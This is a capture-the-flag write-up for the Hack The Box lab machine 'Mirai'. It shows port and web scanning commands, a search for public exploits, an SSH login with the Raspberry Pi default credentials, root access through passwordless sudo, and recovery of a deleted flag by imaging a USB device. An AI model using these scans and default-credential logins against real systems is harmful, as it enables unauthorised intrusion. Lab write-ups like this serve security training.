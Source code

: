 # [Mirai](https://app.hackthebox.eu/machines/64)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.48 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS --script "default,safe" -p $tcpports -oA tcp --open -Pn -sV 10.10.10.48 &
# TCP quick scan
sudo nmap -sS -sC -F --open -Pn -sV 10.10.10.48
# UDP quick scan
sudo nmap -sU -F --open -Pn -sV 10.10.10.48
```

The TCP quick scan returns the following:

![nmap_tcp_quick](./mirai/nmap_tcp_quick.png)

Looking at DNS for any domains does not work:

```bash
host -t ns 10.10.10.48 10.10.10.48
```

![dns](./mirai/dns.png)

With all the services and versions, look for exploits:

```bash
searchsploit dnsmasq 2.76
searchsploit lighttpd 1.4
searchsploit platinum upnp
```

![dnsmasq](./mirai/dnsmasq.png)

![lighttpd](./mirai/lighttpd.png)

![platinum](./mirai/platinum.png)

Of the ones that are applicable, they are all under the DOS category. Moving on... Start the following web scanners:

```bash
# install scanner
sudo apt install gobuster
# prevent file access error during scanning
ulimit -n 8192
# start scanners
nikto -h http://10.10.10.48/ --maxtime=120s --output=nikto.txt
gobuster dir -t 100 -q -z -o gobuster.txt \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt\
  -u http://10.10.10.48/ &
```

The `gobuster` scan returns some interesting directories:

![gobuster](./mirai/gobuster.png)

Looking at `http://10.10.10.48/versions` returns a text file with the following content:

```
,v3.1.4,v3.1,v2.1
```

Nothing interesting here. Browsing to `/admin` shows the following:

![pihole](./mirai/pihole.png)

Okay, getting somewhere. Looking at the bottom of the page fixes the mystery of `/versions`:

![versions](./mirai/versions.png)

Searching for exploits returns the following:

```bash
searchsploit pi hole
```

![pihole_v](./mirai/pihole_v.png)

These require valid credentials. Moving on... The full `nmap` TCP can should have finished and returns a new port & service:

- `32400/tcp open  http    Plex Media Server httpd`

This webserver has the following login page:

![plex](./mirai/plex.png)

Trying some simple logins does not work and looking for exploits does not turn up much :

![plex_v](./mirai/plex_v.png)

At this point, some more Goolge searches shows that the Pi-Hole service is used on RaspberryPi's for network-wide Ad blocking:

- https://pi-hole.net/
- https://www.smarthomebeginner.com/pi-hole-setup-guide/

RaspberryPis have a default login for their pre-built images `pi/raspberry`:

- https://www.raspberrypi.org/documentation/linux/usage/users.md

Trying this login for SSH provides an easy login & `user.txt`:

```bash
find / -iname user.txt -exec ls -lad {} \; 2>/dev/null
```

![user](./mirai/user.png)

Further enumeration shows that this user also has full access as `root` via `sudo` without having to know the password:

```bash
sudo -l
```

![sudo](./mirai/sudo.png)

However, `root.txt` is not as easy:

```bash
sudo su
find / -iname root.txt -exec ls -lad {} \; 2>/dev/null
```

![fake_root](./mirai/fake_root.png)

From this, look at mounted devices:

```bash
mount
lsblk
```

![devices](./mirai/devices.png)

Seems like the USB stick is mounted at `/media/usbstick`. However, this still does not give `root.txt`:

```bash
cd /media/usbstick
ls -la
cat damnit.txt
```

![james](./mirai/james.png)

If the files were just "deleted" and not wiped, then it is possible that the contents of `root.txt` are still on the USB:

```bash
dd if=/dev/sdb of=/tmp/usb.img conv=sync,noerror
strings /tmp/usb.img
```

![root](./mirai/root.png)

And this returns the flag!